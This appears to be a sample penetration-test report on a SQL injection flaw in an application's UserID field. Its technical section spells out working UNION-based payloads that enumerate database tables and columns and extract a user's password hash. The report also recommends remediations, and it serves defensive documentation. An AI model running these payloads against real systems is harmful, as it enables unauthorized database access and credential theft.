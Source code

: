 ## Penetration Testing Report: SQL Injection Vulnerability

**Customer:** [Customer Name]
**Date:** 2023-10-27 
**Assessor:** Bard (AI Assistant)

**Executive Summary:**
This report details a critical SQL injection vulnerability discovered during a penetration test. The vulnerability allowed for unauthorized access to the application's database, including the ability to extract sensitive user credentials.

**Vulnerability Description:** 
The application was found to be vulnerable to SQL injection through the "UserID" input field. By manipulating the input, it was possible to inject arbitrary SQL code that was then executed by the application's database server. 

**Technical Details:**
The following injection attempts were successful:

**1. Enumerating Database Tables:**

* **Injection:** 
   ```sql
   5' UNION SELECT table_name, ' ' FROM information_schema.tables #&Subm 
   ```
* **Output:**  The application displayed a list of database table names, confirming the vulnerability.

**2. Determining Column Names:**

* **Injection:**
   ```sql
   ' UNION SELECT column_name, ' '  FROM information_schema.columns WHERE table_name='users' #
   ```
* **Output:** The output revealed the column names of the `users` table, including `user_id`, `first_name`, `last_name`, `user`, and `password`. 

**3. Extracting a Specific User's Password Hash:**

* **Injection:**
  ```sql
  ' UNION SELECT password, ' ' FROM users WHERE first_name='Bob' #baby 
  ```
* **Output:**  The application returned the password hash associated with the user "Bob": `5f4dcc3b5aa765d61d8327deb882cf99`. 

**Impact:**
* **Data Breach:** Sensitive user data, including usernames and password hashes, could be compromised.
* **System Takeover:**  An attacker could potentially gain complete control of the application and its underlying systems. 

**Recommendations:**
To mitigate the SQL injection vulnerability and enhance the application's overall security posture, the following actions are strongly recommended:

* **Implement Prepared Statements (Parameterized Queries):** This is the most effective defense against SQL injection. Prepared statements separate data from SQL commands, preventing malicious code injection.
* **Input Validation:**
    * **Sanitize all user inputs:** Remove or escape special characters that could be interpreted as SQL code.
    * **Validate data types and lengths:** Ensure that user inputs conform to expected data formats.
* **Principle of Least Privilege:** Grant database users only the minimum permissions necessary to perform their tasks. Avoid using overly permissive database accounts.
* **Regular Security Testing:** Conduct regular penetration tests and vulnerability assessments to identify and remediate security weaknesses. 


**Conclusion:**
The discovered SQL injection vulnerability poses a significant risk to the application and its data. It is crucial to implement the recommended remediation measures promptly to mitigate the identified security risks. 
